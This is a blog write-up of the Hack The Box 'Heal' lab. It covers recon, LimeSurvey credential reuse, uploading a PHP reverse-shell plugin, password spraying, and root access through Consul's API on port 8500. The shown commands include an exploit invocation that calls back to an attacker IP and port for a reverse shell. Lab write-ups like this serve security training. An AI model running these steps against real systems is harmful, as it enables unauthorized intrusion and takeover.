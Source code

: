 ```yaml
---
title: Heal - HTB
date: 2025-04-26 14:00:00 +0200
categories: HTB
tags: [Linux , priv-escalation , rooted , heal]
toc: true
comments: true
image: ./assets/img/attachments/heal-1.png
imageNameKey: heal
---
```

Hey folks, Its me again with a new writeup, this is 3/1000 the journey is bit long but we are up
# Recon
**First thing, as usual, is to perform scanning.**  
I did a quick scan first (since a full scan consumes more time).  
We will work with what we find from the quick scan.
```bash
 nmap 10.10.11.46 -F -Pn -T5
```
![w](/assets/img/attachments/heal-2.png)

I couldn't open the webpage because the IP address wasn't resolved. 
```bash
─$ nslookup 10.10.11.46                            
** server can't find 46.11.10.10.in-addr.arpa: NXDOMAIN

```
 So i run nmap scan on port 80
 ```bash
 $ nmap 10.10.11.46 -sC -sV -p80          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-26 13:28 EDT
Nmap scan report for 10.10.11.46
Host is up (0.43s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://heal.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.22 seconds

```
From here I got the domain name http://heal.htb/, lets add it to /etc/hosts

![w](/assets/img/attachments/heal-3.png)

This is how the webpage looked. I tried to register but got an error saying "something went wrong," so I performed content discovery to find hidden directories.
```bash
ffuf -u http://heal.htb/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -recursion -recursion-depth 2

dirb http://heal.htb

```
Both attempts returned nothing, and the website responded with a 503 error. I went back to the main page and tried to register again but still couldn’t. At this point, I fired up Burp Suite to start analyzing the requests I was sending — maybe I could spot an injection point.

![w](/assets/img/attachments/heal-4.png)

I think that's why i couldn't register or login with default credentials, or even test for SQLi.
After adding this subdomain to /etc/hosts. I signed up.
# Initial Access
I tried command injection at input fields, but didnt work, BUT survey button directed us to this subdomain:

![w](/assets/img/attachments/heal-7.png)

which is LimeSurvey service, I couldn't get the exact version of the used service. but from the printed message we knew the administrator username **ralph**.

![w](/assets/img/attachments/heal-15.png)
Found exploit, but i don't have password for any account, and default credentials didn't work. Nothing else to do here.
Going back to burp requests:

![w](/assets/img/attachments/heal-8.png)
![w](/assets/img/attachments/heal-9.png)

Couldn't find interesting files, But at api.heal.htb found out page was written with ruby
![w](/assets/img/attachments/heal-10.png)

![w](/assets/img/attachments/heal-11.png)

Lets check those:

![w](/assets/img/attachments/heal-12.png)

Here we found ralph hashed password

![w](/assets/img/attachments/heal-13.png)
 
 Got the password, didn't work for ssh but worked for lime survey, Going back to the found exploit
 ![w](/assets/img/attachments/heal-16.png)
```bash
zip access.zip exploit.py config.xml php-rev.php 
```
![w](/assets/img/attachments/heal-17.png)

![w](/assets/img/attachments/heal-18.png)

Setting listener, then open http://take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php 
![w](/assets/img/attachments/heal-19.png)
![w](/assets/img/attachments/heal-23.png)
![w](/assets/img/attachments/heal-22.png)
i used this command to find config directory
```bash
find / -type d -name "config" 2>/dev/null

```
In config.php

![w](/assets/img/attachments/heal-24.png)
Did password spraying, and it worked with ron

![w](/assets/img/attachments/heal-25.png)
![w](/assets/img/attachments/heal-26.png)
# Privilege Escalation
After running linpeas 
![w](/assets/img/attachments/heal-27.png)
port 3000 and 3001 are running the same webpage 
![w](/assets/img/attachments/heal-28.png)

port 8300 didn't accept our connection while 8500 did.

![w](/assets/img/attachments/heal-29.png)

did curl to see what's version is running
```bash
curl http://127.0.0.1:8500/ui/
```
![w](/assets/img/attachments/heal-30.png)
![w](/assets/img/attachments/heal-31.png)

There is exploit for this version.
![w](/assets/img/attachments/heal-34.png)

Means no need for token parameter in this exploit

```bash
python3 exploit.py 127.0.0.1 8500 10.10.16.53 4444 ""
```
![w](/assets/img/attachments/heal-32.png)

![w](/assets/img/attachments/heal-33.png)
And Rooted!
In conclusion, exploiting Consul's unprotected API on port 8500 allowed root access through a malicious service registration, emphasizing the necessity of strict ACL enforcement and vigilant system monitoring to thwart privilege escalation.
Catch you later!

